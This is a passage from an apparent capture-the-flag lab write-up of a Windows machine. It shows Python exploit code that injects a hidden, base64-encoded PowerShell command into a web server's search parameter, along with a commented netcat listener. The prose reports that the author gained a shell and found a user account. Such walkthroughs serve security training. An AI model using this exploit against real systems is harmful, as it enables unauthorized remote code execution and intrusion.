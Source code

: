 ```python
print("\nEncoded the command in base64 format...")

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("\nEncoded the payload and sent a HTTP GET request to the target...")

# Print some information
print("\nPrinting some information for debugging...")
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
#print("\nListening for connection...")
#os.system(f'nc -nlvp {lport}')
{% endraw %}
```

Now we need just to execute the exploit and wait for a connection, as we can see i have receive a connection and have access to the target machine.

<p align = "center">
<img src = "/assets/images/img-steelMountain/captura13.png">
</p>

If we list the users on the system we have user call ***bill***.

<p align = "center">
<img src = "/assets/images/img-steelMountain/captura14.png">
</p>

